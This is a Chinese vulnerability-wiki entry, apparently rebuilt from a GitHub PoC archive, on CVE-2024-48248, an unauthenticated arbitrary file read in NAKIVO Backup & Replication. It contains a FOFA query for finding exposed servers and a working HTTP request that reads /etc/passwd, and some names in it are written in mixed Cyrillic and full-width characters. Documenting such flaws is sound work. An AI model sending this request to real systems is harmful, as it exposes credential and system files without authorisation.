

# NAKIVO Backup & Replication任意文件读取漏洞(CVE-2024-48248)

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：NAKIVO Backup & Replication
- 文献类型：任意文件读取PoC
- 版本、权限及部署边界：文称<11.0.0.88174；空sid未认证JSONRPC；读取受服务账户权限限制
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 产品及STPreLoadManagement/getImageByPath描述混Cyrillic/全角和控制字符，代码ASCII正确应据源统一，避免搜索失败
2. 返回内容只称ASCII解码无实际数据结构/示例；图片未视检，不能假设原始回包为哪种编码
3. 在野已知/范围广无来源；下载试用页非具体安全公告，需验证修复版本与不同平台
4. HTTP/JSON未围栏，需恢复可读格式；写入后门等不在此文证据内

### 操作风险

HTTP/JSON未围栏，需恢复可读格式；写入后门等不在此文证据内

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://www.nakivo.com/resources/download/trial-download/download/>
- 原文参考链接（未重新核验）：<https://github.com/SourByte05/Vulnerability-Wiki-PoC>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

# 漏洞描述

NAKＩVO Bасｋuр & Rерliсаtiоn 存在任意文件读取漏洞，攻击者可利用STPrеLоаdMаnаɡеmеnt 类中的 ɡеtImаɡеBуPаth方法，绕过路径验证并读取目标服务器上的任意文件（包括敏感配置文件、数据库、备份日志等）。

# 影响版本

NAKIVO Backup & Replication < v11.0.0.88174

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="NAKIVO-Backup-Replication"

POC/EXP：

```http
POST /c/router HTTP/1.1
HOST: 127.0.0.1
Connection:keep-alive
Content-type: application/json

{"action": "STPreLoadManagement","data": ["/etc/passwd"],"method":"getImageByPath","sid":"","tid":"watchTowr","type":"watchTowr"}
```




内容进行**ASCII** 解码即可

# 漏洞修复

目前官方已发布安全更新，建议用户尽快升级至最新版本：

https://www.nakivo.com/resources/download/trial-download/download/


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
